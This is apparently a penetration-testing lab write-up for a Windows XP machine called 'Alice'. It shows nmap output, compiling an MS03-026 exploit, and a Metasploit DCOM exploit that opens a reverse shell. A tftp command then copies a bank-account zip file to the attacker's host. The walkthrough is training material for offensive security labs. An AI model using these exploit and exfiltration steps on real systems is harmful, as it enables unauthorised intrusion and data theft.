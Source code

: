 ```yaml
---
description: Simple machine that looked like EternalBlue, but it wasn't.
---
```


# Alice

First, let's scan the box with nmap.

```
┌──(kali㉿kali)-[~/pen200/10.11.1.5]
└─$ cat nmap.scan      
...
PORT     STATE SERVICE      VERSION
135/tcp  open  msrpc        Microsoft Windows RPC
139/tcp  open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp  open  microsoft-ds Windows XP microsoft-ds
1025/tcp open  msrpc        Microsoft Windows RPC
Service Info: OSs: Windows, Windows XP; CPE: cpe:/o:microsoft:windows, cpe:/o:microsoft:windows_xp

Host script results:
| smb-os-discovery: 
|   OS: Windows XP (Windows 2000 LAN Manager)
|   OS CPE: cpe:/o:microsoft:windows_xp::-
|   Computer name: alice
|   NetBIOS computer name: ALICE\x00
|   Domain name: thinc.local
|   Forest name: thinc.local
|   FQDN: alice.thinc.local
|_  System time: 2023-01-26T02:18:34+00:00
|_smb2-time: Protocol negotiation failed (SMB2)
| nbstat: NetBIOS name: ALICE, NetBIOS user: <unknown>, NetBIOS MAC: 0050568678dd (VMware)
| Names:
|   ALICE<00>            Flags: <unique><active>
|   ALICE<20>            Flags: <unique><active>
|   THINC<00>            Flags: <group><active>
|   ALICE<03>            Flags: <unique><active>
|   THINC<1e>            Flags: <group><active>
|   THINC<1d>            Flags: <unique><active>
|_  \x01\x02__MSBROWSE__\x02<01>  Flags: <group><active>
```

We can see that the machine is running Windows XP, which is a good giveaway for some retro exploits. I'll search in exploit db for windows rpc exploits.

<figure><img src="../.gitbook/assets/image (45).png" alt=""><figcaption></figcaption></figure>

MS03-026 looks promising, so I'll both download the c file provided and compile it but also load it up in metasploit. Note that I changed the payload earlier because XP is an older OS , so meterpreter and x64 shells aren't guaranteed to work.

```
┌──(kali㉿kali)-[~/pen200/10.11.1.5/exploit]
└─$ gcc 66.c -o ms03-026
...
msf6 > search ms03-026

Matching Modules
================

#  Name                                  Disclosure Date  Rank   Check  Description
-  ----                                  ---------------  ----   -----  -----------
0  exploit/windows/dcerpc/ms03_026_dcom  2003-07-16       great  Yes    MS03-026 Microsoft RPC DCOM Interface Overflow


Interact with a module by name or index. For example info 0, use 0 or use exploit/windows/dcerpc/ms03_026_dcom

msf6 > use 0
[*] Using configured payload windows/shell/reverse_tcp
msf6 exploit(windows/dcerpc/ms03_026_dcom) > set payload 2
msf6 exploit(windows/dcerpc/ms03_026_dcom) > set RHOST 10.11.1.5
RHOST => 10.11.1.5
msf6 exploit(windows/dcerpc/ms03_026_dcom) > set LHOST 192.168.119.162
LHOST => 192.168.119.162
msf6 exploit(windows/dcerpc/ms03_026_dcom) > exploit

[*] Started reverse TCP handler on 192.168.119.162:4444
[*] 10.11.1.5:135 - Trying target Windows NT SP3-6a/2000/XP/2003 Universal...
[*] 10.11.1.5:135 - Binding to 4d9f4ab8-7d1c-11cf-861e-0020af6e7c57:0.0@ncacn_ip_tcp:10.11.1.5[135] ...
[*] 10.11.1.5:135 - Calling DCOM RPC with payload (1648 bytes) ...
[*] Encoded stage with x86/shikata_ga_nai
[*] Sending encoded stage (267 bytes) to 10.11.1.5
[*] Command shell session 1 opened (192.168.119.162:4444 -> 10.11.1.5:1196) at 2023-01-26 20:33:27 -0600


Shell Banner:
Microsoft Windows XP [Version 5.1.2600]
-----


C:\WINDOWS\system32>
```

Shell acquired. We can then transfer the bank\_credentials.zip file to our host system with tftp.

```
┌──(kali㉿kali)-[~/pen200/10.11.1.5/exploit]
└─$ sudo atftpd --daemon --port 69 /tftp
```

```
C:\>tftp -i 192.168.119.162 put bank-account.zip
tftp -i 192.168.119.162 put bank-account.zip
Transfer successful: 2081 bytes in 1 second, 2081 bytes/s
```

We can hold onto this for later and other boxes.
